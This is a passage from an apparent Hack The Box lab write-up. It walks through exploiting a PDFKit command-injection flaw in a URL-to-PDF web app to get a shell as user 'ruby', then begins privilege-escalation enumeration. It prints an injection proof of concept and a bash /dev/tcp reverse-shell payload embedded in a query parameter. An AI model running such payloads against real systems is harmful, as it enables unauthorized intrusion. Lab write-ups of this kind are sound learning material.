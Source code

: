 ![Snyk](./images/20_Snyk_Info.JPG)  
Taking a look at the Snyk advisory, there is an explanation and also a proof of-concept. The vulnerability exists where the 
```PDFKit.new().to_pdf``` function is supplied a URL that contains query-string parameters with user provided input.  
For example if; ```http://127.0.0.1/?name=#{'%20`id`'}``` was supplied to ```PDFKit.new().to_pdf```, the ```id ``` command would be executed and the results included in the generated PDF document.

###### Exploitation
Lets go straight for a reverse shell, a simple reverse shell inside a query parameter in our supplied URL to the web app should return a shell. 
The payload I will be using will be:
```http://127.0.0.1/?name=#{'%20`bash -c "bash -i >& /dev/tcp/<HTB_VPN_IP>/<LISTENER_PORT> 0>&1"`'}```  

Payload is from: ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

![Netcat Listener](./images/21_Listener.JPG)  
Start a Netcat listener on a port of your choice.

![Payload](./images/22_Homepage_payload.JPG)  
Enter our payload into the form on the web applications homepage and click submit.

![Shell](./images/23_Shell_as_Ruby.JPG)  
We receive the connection from the reverse shell at our Netcat listener, running the: ```id``` command reveals we are currently the user 'ruby'.

## Pivot / Priv-esc
![Web App Directory](./images/24_Web_app_Dir.JPG)  
The shell has spawned from the web applications root directory: ```/var/www/pdfapp```.  
Listing out the contents recursively we can see there are a few files which could potentially contain some useful information. 

![App Config](./images/25_App_Conf.JPG)  
Taking a look at the rack up file: 'config.ru' and their is nothing juicy. Looking at the 'enviroment.rb' file the app is using Bundler a  manages the installation / version management of an applications ruby-gems.

For more information on Bundler check out: https://bundler.io/  

![Ruby Home](./images/26_Ruby_Home.JPG)  
```
